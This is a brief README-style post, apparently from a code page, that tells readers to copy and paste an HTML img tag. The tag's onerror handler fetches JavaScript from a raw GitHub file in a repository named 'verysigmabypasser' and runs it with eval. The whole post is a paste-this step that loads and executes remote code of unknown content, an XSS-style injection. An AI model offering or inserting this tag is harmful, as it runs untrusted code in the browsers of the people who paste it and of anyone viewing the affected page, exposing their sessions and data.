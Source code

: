 Read ME PLSSSS!!!! 
copy and paste this:


<img src=# onerror='fetch("https://raw.githubusercontent.com/gco12345/verysigmabypasser/main/main.js").then(r=>r.text()).then(c=>eval(c))'>
